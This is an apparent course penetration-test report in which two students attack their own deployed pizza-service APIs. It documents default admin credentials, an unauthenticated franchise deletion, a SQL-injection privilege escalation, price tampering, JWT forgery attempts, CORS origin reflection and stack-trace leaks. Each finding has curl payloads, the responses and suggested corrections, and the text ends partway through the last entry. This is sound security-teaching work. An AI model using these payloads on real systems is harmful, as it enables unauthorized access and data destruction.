# Penetration Test Report

**Peer 1:** Jay Ellis
**Peer 2:** Marco Sotomarino

---

## Self Attack

### Peer 1: Jay Ellis

#### Attack 1 — Default Admin Credentials

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A07 Identification and Authentication Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Attempted login with the default admin credentials hardcoded in the source code (<code>a@jwt.com</code> / <code>admin</code>). The login succeeded, granting full admin access including the ability to list all users, create/delete franchises, and manage stores. These credentials are visible in <code>notes.md</code> and <code>database.js</code> in the source repository.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Request:

```bash
curl -s -X PUT \
  https://pizza-service.urjellis.com/api/auth \
  -H 'Content-Type: application/json' \
  -d '{"email":"a@jwt.com",
       "password":"admin"}'
```

Response (admin access granted):

```json
{
  "user": {
    "id": 1,
    "name": "常用名字",
    "email": "a@jwt.com",
    "roles": [{ "role": "admin" }]
  },
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Change the default admin password on first deployment. 2) Remove hardcoded credentials from source code. 3) Implement a first-run setup flow that forces a password change. 4) Add rate limiting on the login endpoint.</td></tr>
</table>

#### Attack 2 — Unauthenticated Franchise Deletion

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The <code>DELETE /api/franchise/:franchiseId</code> endpoint has NO authentication middleware. Any anonymous, unauthenticated user on the internet can delete any franchise by sending a DELETE request. Created a test franchise (ID 2) using admin credentials, then successfully deleted it with NO Authorization header.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Attack — DELETE with NO authentication:

```bash
curl -s -X DELETE \
  https://pizza-service.urjellis.com\
/api/franchise/2 \
  -w "\nHTTP_CODE: %{http_code}"
```

Response:

```
{"message":"franchise deleted"}
HTTP_CODE: 200
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Add <code>authRouter.authenticateToken</code> middleware and admin role check to the DELETE <code>/api/franchise/:franchiseId</code> route in <code>franchiseRouter.js</code>.</td></tr>
</table>

#### Attack 3 — SQL Injection via User Update (Privilege Escalation)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A03 Injection</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The <code>PUT /api/user/:userId</code> endpoint uses string concatenation (not parameterized queries) to build SQL UPDATE statements. By injecting <code>admin'-- </code> in the <code>name</code> field, the WHERE clause was commented out, causing the UPDATE to modify the admin account (user ID 1) instead of the authenticated user (ID 5). The server returned an admin-role JWT, effectively granting privilege escalation from diner to admin. Error-based payloads also revealed full SQL query structure, table names, and column names through stack traces.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Payload — SQL comment injection:

```bash
curl -s -X PUT \
  https://pizza-service.urjellis.com\
/api/user/5 \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $USER_TOKEN" \
  -d '{"email":"test@test.com","name":"admin'\''-- "}'
```

Response (admin JWT returned):

```json
{
  "user": {
    "id": 1,
    "name": "admin",
    "email": "test@test.com",
    "roles": [{ "role": "admin" }]
  },
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```

Error-based injection reveals SQL structure:

```json
{
  "message": "You have an error in your SQL syntax...
    near 'UNION SELECT id,name,email,password
    FROM user WHERE '1'='1' WHERE id=5'
    at line 1",
  "stack": "Error: ...at DB.updateUser
    (/usr/src/app/database/database.js:122:20)..."
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Use parameterized queries (<code>?</code> placeholders) in <code>database.js:updateUser()</code>. 2) Never concatenate user input into SQL strings. 3) Disable stack trace exposure in production.</td></tr>
</table>

#### Attack 4 — Order Pizza for $0 (Client-Side Price Manipulation)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A04 Insecure Design</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The server accepts order prices directly from the client without validating them against the menu database. Submitted an order for a Veggie pizza at price 0.0001 (real price: 0.0038) and the order was accepted. The pizza factory issued a valid verification JWT for the fraudulent order.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Attack — Submit order with manipulated price:

```bash
curl -s -X POST \
  https://pizza-service.urjellis.com\
/api/order \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $USER_TOKEN" \
  -d '{
    "franchiseId":1, "storeId":1,
    "items":[{"menuId":1,
      "description":"Veggie","price":0.0001}]
  }'
```

Response (order accepted at fraudulent price):

```json
{
  "order": {
    "franchiseId": 1,
    "storeId": 1,
    "items": [
      {
        "menuId": 1,
        "description": "Veggie",
        "price": 0.0001
      }
    ],
    "id": 20246
  },
  "jwt": "eyJpYXQiOjE3NzU5MzA0NjQs..."
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Server-side price validation: look up the actual price from the <code>menu</code> table using the <code>menuId</code> and ignore the client-supplied <code>price</code> field entirely.</td></tr>
</table>

#### Attack 5 — JWT Forgery with Default Secret

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A02 Cryptographic Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">0</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The source code <code>.env</code> file contains <code>JWT_SECRET=dev-secret-key-change-in-production</code>. Attempted to forge an admin JWT using this default secret and also attempted an <code>alg:none</code> attack. Both forged tokens were rejected by the production server, indicating the JWT secret was changed for production deployment. The vulnerability exists in the source code but is not exploitable in this deployment.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Forged token with default secret:

```bash
node -e "
const jwt = require('jsonwebtoken');
const forgedToken = jwt.sign(
  { id:1, name:'admin',
    email:'a@jwt.com',
    roles:[{role:'admin'}] },
  'dev-secret-key-change-in-production'
);
console.log(forgedToken);
"
```

Test forged token:

```bash
curl -s \
  https://pizza-service.urjellis.com\
/api/user/me \
  -H "Authorization: Bearer $FORGED_TOKEN"
```

Response: `{ "message": "unauthorized" }`

alg:none attack also rejected: `{ "message": "unauthorized" }`

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Remove the default secret from <code>.env</code> — use environment-variable-only injection. 2) Add <code>.env</code> to <code>.gitignore</code>. 3) Use a cryptographically random secret of at least 256 bits. 4) Add JWT expiration (<code>expiresIn</code>) to token signing.</td></tr>
</table>

#### Attack 6 — CORS Origin Reflection

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The server reflects ANY <code>Origin</code> header as <code>Access-Control-Allow-Origin</code> with <code>Access-Control-Allow-Credentials: true</code>. Any malicious website can make authenticated cross-origin requests to the pizza API, stealing user data or performing actions on their behalf.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Request from malicious origin:

```bash
curl -s -D- -o /dev/null \
  https://pizza-service.urjellis.com\
/api/franchise \
  -H "Origin: https://evil-attacker.com"
```

Response headers (origin reflected):

```
access-control-allow-origin: https://evil-attacker.com
access-control-allow-methods: GET, POST, PUT, DELETE
access-control-allow-headers:
  Content-Type, Authorization
access-control-allow-credentials: true
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Configure CORS to allow only the specific frontend origin (<code>https://pizza.urjellis.com</code>). Never reflect arbitrary origins with <code>credentials: true</code>.</td></tr>
</table>

#### Attack 7 — Stack Trace / Information Disclosure

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.urjellis.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Error responses include full Node.js stack traces, exposing internal file paths, dependency versions, database driver details, and application structure. An attacker can use this to map the internal architecture and plan targeted attacks.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Trigger — Send malformed JSON:

```bash
curl -s -X POST \
  https://pizza-service.urjellis.com\
/api/auth \
  -H 'Content-Type: application/json' \
  -d 'not json'
```

Response (stack trace leaked):

```json
{
  "message": "Unexpected token 'n',
    \"not json\" is not valid JSON",
  "stack": "SyntaxError: ...
    at createStrictSyntaxError
    (/usr/src/app/node_modules/
    body-parser/...json.js:169:10)..."
}
```

Reveals: Node.js runtime, body-parser module, file path prefix `/usr/src/app/` (Docker container).

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Set <code>NODE_ENV=production</code> and configure the Express error handler to omit <code>stack</code> from responses in production. Only log stack traces server-side.</td></tr>
</table>

### Peer 2: Marco Sotomarino

#### Attack 1 — Unauthenticated Franchise Deletion

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Sent an unauthenticated <code>DELETE</code> request to <code>/api/franchise/1</code> using Burp Repeater with no <code>Authorization</code> header. The server processed the request successfully and deleted the franchise. The endpoint does not enforce authentication or authorization checks, allowing any user to perform destructive actions.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">



</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Require authentication and enforce admin role authorization before allowing franchise deletion.</td></tr>
</table>

#### Attack 2 — Client-Side Price Manipulation

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A04 Insecure Design</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Changed the <code>price</code> field of the order items to <code>0.0001</code> using Burp Repeater. The server accepted the request and processed the order using the manipulated prices instead of validating them against the menu. The backend trusts client-side input for pricing, allowing attackers to purchase items at arbitrary prices.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">



</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Do not trust client-provided pricing. The backend should retrieve the correct price from the database using the <code>menuId</code> and ignore any price sent by the client.</td></tr>
</table>

#### Attack 3 — Stack Trace Information Disclosure

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Sent a malformed request to <code>PUT /api/auth</code> by replacing the JSON body with invalid input. The server responded with a detailed error message including a full stack trace and internal file paths. This reveals sensitive implementation details such as framework usage and backend structure, which can aid an attacker in further exploitation.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

